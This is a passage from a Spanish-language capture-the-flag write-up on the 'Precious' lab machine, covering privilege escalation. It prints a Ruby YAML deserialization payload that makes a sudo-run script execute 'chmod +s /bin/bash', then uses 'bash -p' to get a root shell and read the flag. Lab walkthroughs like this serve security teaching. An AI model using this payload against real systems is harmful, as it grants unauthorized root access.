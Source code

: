 Hagámoslo por pasos:

* Antes veamos que permisos tiene la **Bash**:
```bash
henry@precious:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

* Ahora agreguemos el cambio al script para cambiar los permisos:
```bash
       socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: chmod +s /bin/bash
          method_id: :resolve
```

* Ejecutamos el script con **SUDO**:
```bash
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
        33: from /opt/update_dependencies.rb:17:in `<main>'
        32: from /opt/update_dependencies.rb:10:in `list_from_file'
        31: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
...
```

* Comprobamos si se hizo el cambio:
```bash
ls -la /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

* ¡Si se hizo!, entremos a la **Bash** y busquemos la flag:
```bash
henry@precious:~$ bash -p
bash-5.1# whoami
root
bash-5.1# ls
dependencies.yml  user.txt
bash-5.1# cd /root
bash-5.1# ls
root.txt
bash-5.1# cat root.txt
```
Y listo, ya tenemos las flags.


<br>
<br>
<div style="position: relative;">
 <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
  <button style="position:absolute; left:80%; top:3%; background-color:#444444; border-radius:10px; border:none; padding:4px;6px; font-size:0.80rem;">
   <a href="#Indice">Volver al Índice</a>
  </button>
</div>
